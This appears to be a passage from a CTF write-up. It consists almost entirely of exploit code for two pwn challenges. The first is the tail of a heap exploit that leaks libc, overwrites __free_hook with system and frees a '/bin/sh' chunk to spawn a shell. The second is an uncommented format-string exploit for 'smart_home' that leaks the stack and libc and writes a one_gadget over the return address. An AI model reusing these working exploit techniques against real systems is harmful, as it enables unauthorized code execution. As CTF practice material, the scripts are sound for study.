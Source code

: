 ```py
add(6, p64(0) + p64(0x0007000000000000))

edit_size(4)
# alloc 一个 chunk，在程序最开始运行时为了输入名称而 alloc 的 0x300 chunk，并 free 它使其进入 unsortedbin
edit_head(chunk_name_addr + 0x10)
add(7, b'nothing here')
delete(7)

libc_offset = u64_(view(7))
libc_base = libc_offset - 0x1ecbe0
libc.address = libc_base
print(f'libc_base:            {hex(libc_base)} ')
print(f'__free_hook:          {hex(libc.symbols['__free_hook'])}')

edit_size(4)

edit_head(libc.symbols['__free_hook'])
add(8, p64(libc.symbols['system']))

edit_size(4)
edit_head(chunk_2_addr + 0x20)
# alloc 一个 chunk 内容为 "/bin/sh"，在 free 时其 rsi 即为 &"/bin/sh"
add(9, b'/bin/sh\x00')
delete(9)

p.interactive()
```

# [](#header-3)pwn smart_home

由于个人原因，不想写解析. 这个题是朋友做出来的，不写了. 在此我直接附 exp. 转载请标明出处

### [](#header-3)EXP

```py
from pwn import *

libc = ELF("./libc-2.31.so")
io = process(["./smart_home"])

io.sendline(b"%6$p")
io.recvuntil(b"0x")
stack = int(io.recv(12), 16)

io.sendline(b"%9$p")
io.recvuntil(b"0x")
libc = int(io.recv(12), 16) + 0x78aa8db73000 - 0x78aa8db97083
one_gadget = libc + 0xe3b01

print("stack", hex(stack))
print("libc", hex(libc))
retn_addr = stack - 0xF0 + 0x8
print("retn_addr", hex(retn_addr))

io.recvuntil(b"Enter your choice:")
payload = f"%{retn_addr % 0x10000}c%26$hn".encode() + b'\x00'
io.sendline(payload)

io.recvuntil(b"Enter your choice:")
payload = f"%{one_gadget % 0x10000}c%39$hn".encode() + b"\x00"
io.sendline(payload)

io.recvuntil(b"Enter your choice:")
```
